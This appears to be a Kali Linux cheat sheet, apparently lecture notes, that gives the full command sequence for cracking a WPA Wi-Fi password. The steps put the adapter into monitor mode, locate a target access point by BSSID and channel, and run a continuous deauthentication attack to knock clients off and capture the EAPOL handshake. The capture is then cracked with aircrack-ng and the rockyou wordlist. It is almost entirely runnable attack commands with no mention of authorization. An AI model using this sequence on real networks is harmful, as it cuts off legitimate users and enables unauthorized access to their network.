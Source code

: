 
## Commands used:

# See version of Kali
```
cat /etc/os-release
uname -a
```
See interfaces
```
ip addr
iwconfig
```
kill processes
```
sudo airmon-ng check kill
```
Start monitor mode
```
sudo airmon-ng start wlan0
```
Verify that monitor mode is used
```
sudo airmon-ng 
```
You could also use iwconfig to check that interface is in monitor mode:
```
iwconfig
```
Get the AP's MAC address and channel
```
sudo airodump-ng wlan0mon
```
AP-MAC & channel - you need to select your own here:
```
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2
```
1st Window:
- Make sure you replace the channel number and bssid with your own
- Replace hack1 with your file name like capture1 or something 
```
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```
2nd Window - deauth attack:
- Make sure you replace the bssid with your own
```
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
Use Wireshark to open hack file
wireshark hack1-01.cap
Filter Wireshark messages for EAPOL
eapol

Stop monitor mode
```
airmon-ng stop wlan0mon
```
Crack file with Rock you or another wordlist
- Make sure you have rockyou in text format (unzip file on Kali)
- Replace hack1-01.cap with your file name
```
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 
```